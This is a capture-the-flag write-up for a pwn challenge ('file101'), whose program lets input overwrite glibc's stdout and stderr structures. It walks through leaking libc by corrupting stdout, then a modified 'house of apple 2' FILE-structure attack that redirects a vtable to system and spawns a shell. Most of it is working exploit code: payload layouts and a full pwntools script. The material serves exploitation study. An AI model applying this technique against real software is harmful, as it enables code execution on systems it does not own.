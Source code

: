 # file101

Attachment:

```c
#include <stdio.h>

void main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  puts("stdout:");
  scanf("%224s", (char*)stdout);
  puts("stderr:");
  scanf("%224s", (char*)stderr);
}
```

We can write data to `stdout` and `stderr`, which allows for file stream oriented programming, specifically [house of apple 2](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/).

Heavily insprired by [BlackHat MEA 2025 Writeup - pwn by @Rosayxy](https://rosayxy.github.io/blackhat-mea-2025-writeup-pwn/), but uses a modified house of apple 2 instead of house of cat.

Steps:

1. Override the lowest byte of `stdout._IO_write_base` to zero, so that internal data of `stdout` is leaked via stdout
2. Based on leaked data, we know the base address of libc, construct the house of apple 2 payload using the libc base address with some modifications:
    1. `scanf` stops when `0x20` is encountered, so `fake_file->file._flags` is set to `"aa;sh\x00"` instead of the typical `" sh\x00"`
    2. the offset of `_wide_vtable` within `fake_file->file._wide_data` is 0xE0, which overflows the input limitation of `%224s`; so we point `fake_file->file._wide_data` to `fake_file - 0x10` instead
3. Send the payload to get shell

Typical house of apple 2 payload:

```python
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # basic approach with spaces:
        # " sh\x00"
        # 0x20, 0x73, 0x68, 0x00
        0x00: b" sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x18: p64(0),
        # fake_file->file._IO_write_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_IO_buf_base
        0x30: p64(0),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
        # fake_file->file._wide_data->_wide_vtable
        0xE0: fake_file,
    }
)
```

Modified paylaod for this challenge:

```python
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # without spaces:
        # 0x61, 0x61, 0x3b, 0x73, 0x68, 0x00
        0x00: b"aa;sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x08: p64(0),
        # fake_file->file._IO_write_base
        # fake_file->file._wide_data->_IO_buf_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file - 0x10,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->file._wide_data->_wide_vtable
        0xD0: fake_file,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
    }
)
```

Attack:

```python
from pwn import *
from pwnlib.libcdb import search_by_build_id

elf = ELF("./chall")
libc = elf.libc
# get debug symbols for libc
libc_unstrip_filename = search_by_build_id(libc.buildid.hex(), unstrip=True)
libc_unstrip = ELF(libc_unstrip_filename)
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

p = process("./chall")

# house of apple 2
# https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-2/

# gdb.attach(p)
# pause()

# libc leak
# https://rosayxy.github.io/blackhat-mea-2025-writeup-pwn/
p.recvuntil(b"stdout:\n")
# 0xFBAD1800:
# _IO_MAGIC
# _IO_IS_APPENDING
# _IO_CURRENTLY_PUTTING
# override lowest byte of _IO_write_base to 0x00
# so that data is leaked within stdout
p.sendline(p64(0xFBAD1800) + p64(0) * 3)
# using local libc here, offset can be different from remote
# data starting from &stdout[0x40] is printed
p.recv(0x28)
# &stdout[0x68]: _chain, stdout->file._chain is stdin
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
libc_addr = libc_leak - libc.symbols["_IO_2_1_stdin_"]

libc.address = libc_addr
libc_unstrip.address = libc_addr
print("libc", hex(libc_addr))

# construct payload for house of apple2
# using stderr as fake_file
fake_file = libc.symbols["_IO_2_1_stderr_"]
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # basic approach with spaces:
        # " sh\x00"
        # 0x20, 0x73, 0x68, 0x00
        # 0x00: b" sh\x00",
        # without spaces:
        # 0x61, 0x61, 0x3b, 0x73, 0x68, 0x00
        0x00: b"aa;sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x08: p64(0),
        # fake_file->file._IO_write_base
        # fake_file->file._wide_data->_IO_buf_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file - 0x10,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->file._wide_data->_wide_vtable
        0xD0: fake_file,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
    }
)
p.recvuntil("stderr:")
p.send(payload)

p.interactive()
```
